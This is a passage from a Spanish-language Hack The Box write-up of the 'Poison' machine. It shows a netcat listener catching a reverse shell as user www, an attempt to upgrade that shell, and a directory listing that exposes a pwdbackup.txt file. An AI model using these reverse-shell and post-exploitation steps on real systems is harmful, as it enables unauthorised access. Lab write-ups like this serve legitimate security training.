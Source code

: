 ![](/assets/images/htb-writeup-poison/web9.png)

```bash
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.1.254 47071
sh: can't access tty; job control turned off
$ whoami
www
$ 
```

Si intentamos ejecutar esto para tener una consola interactiva vemos que no podemos 

```bash
$ script /dev/null -c bash
script: -c: No such file or directory
Script started, output file is /dev/null
Script started, output file is /dev/null

Script done, output file is /dev/null
$ 
```

Vemos un archivo `pwdbackup.txt`

```bash
$ pwd
/usr/local/www/apache24/data
$ ls -la
total 72
drwxr-xr-x  2 root  wheel   512 Mar 19  2018 .
drwxr-xr-x  6 root  wheel   512 Jan 24  2018 ..
-rw-r--r--  1 root  wheel    33 Jan 24  2018 browse.php
-rw-r--r--  1 root  wheel   289 Jan 24  2018 index.php
-rw-r--r--  1 root  wheel    27 Jan 24  2018 info.php
-rw-r--r--  1 root  wheel    33 Jan 24  2018 ini.php
-rw-r--r--  1 root  wheel    90 Jan 24  2018 listfiles.php
-rw-r--r--  1 root  wheel    20 Jan 24  2018 phpinfo.php
-rw-r--r--  1 root  wheel  1267 Mar 19  2018 pwdbackup.txt
$ 
```
